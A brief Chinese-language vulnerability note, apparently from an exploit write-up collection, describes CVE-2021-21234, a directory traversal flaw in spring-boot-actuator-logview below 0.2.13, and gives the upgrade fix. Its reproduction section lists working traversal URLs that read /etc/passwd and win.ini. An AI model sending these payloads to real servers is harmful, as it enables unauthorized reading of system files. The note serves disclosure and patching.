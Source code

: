 # Spring Boot 目录遍历 CVE-2021-21234

## 漏洞描述

spring-boot-actuator-logview 是一个简单的日志文件查看器，在 0.2.13 版本之前存在目录遍历漏洞。

## 漏洞影响

```
spring-boot-actuator-logview < 0.2.13
```

## 漏洞复现

Windows：

```
http://<your-ip>/manage/log/view?filename=/windows/win.ini&base=../../../../../../../../../../ 
http://<your-ip>/log/view?filename=/windows/win.ini&base=../../../../../../../../../../ 
```

Linux：

```
http://<your-ip>/manage/log/view?filename=/etc/passwd&base=../../../../../../../../../../
http://<your-ip>/log/view?filename=/etc/passwd&base=../../../../../../../../../../
```

## 漏洞修复

将 spring-boot-actuator-logview 升级到 0.2.13 及以上版本。
